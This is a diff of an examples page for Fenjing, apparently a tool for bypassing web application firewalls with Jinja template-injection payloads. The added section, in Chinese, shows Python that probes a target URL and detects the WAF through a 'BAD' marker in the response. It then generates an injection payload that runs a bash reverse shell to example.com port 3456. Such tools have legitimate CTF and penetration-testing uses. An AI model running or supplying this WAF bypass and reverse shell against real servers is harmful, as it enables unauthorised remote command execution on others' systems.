

Before and after one commit to Marven11/Fenjing, a Markdown page: examples.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Update examples

````diff
--- a/examples.md
+++ b/examples.md
@@ -81,6 +81,38 @@ if __name__ == "__main__":
     # print(f"{config_payload=}")
 ```
 
+### 在不获取WAF黑名单的情况下，根据返回页面中的特征生成payload
+
+比如说如果提交的payload被WAF后，WAF页面含有"BAD"这三个字母，那么可以这么写：
+
+```python
+import functools
+import time
+import requests
+from fenjing import exec_cmd_payload
+
+
+URL = "http://10.137.0.28:5000"
+
+
+@functools.lru_cache(1000)
+def waf(payload: str):  # 如果字符串s可以通过waf则返回True, 否则返回False
+    time.sleep(0.02) # 防止请求发送过多
+    resp = requests.get(URL, timeout=10, params={"name": payload})
+    return "BAD" not in resp.text
+
+
+if __name__ == "__main__":
+    shell_payload, will_print = exec_cmd_payload(
+        waf, 'bash -c "bash -i >& /dev/tcp/example.com/3456 0>&1"'
+    )
+    if not will_print:
+        print("这个payload不会产生回显！")
+
+    print(f"{shell_payload=}")
+```
+
+
 ### 让生成器学会使用新的变量
 
 [参考](https://github.com/Marven11/Fenjing/issues/4)
````
